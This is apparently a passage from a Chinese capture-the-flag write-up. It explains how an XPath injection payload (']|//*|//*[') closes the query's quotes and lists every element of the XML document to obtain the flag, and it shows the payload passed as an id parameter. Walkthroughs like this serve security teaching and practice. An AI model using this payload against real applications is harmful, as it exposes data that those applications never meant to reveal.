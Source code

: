 也是有东西的，猜测flag应该在某个数字里面，但是我们传到7就会发现没有回显

这里用的是Xpath的注入，具体原理在此链接

https://blog.csdn.net/qq_63701832/article/details/129433006

```
这是本题用的方式
']|//*|//*['
$query="user/username[@name='']|//*|//*['';
这里闭合了$user前后的单引号同时执行三个操作，其中第二个操作//*即是关键点，列出文档中的所有元素，最后拿到flag
```

那我们直接传入

```
?id=']|//*|//*['
```

![image-20240126113159172](照片/image-20240126113159172.png)

就可以列出所有内容，得到flag

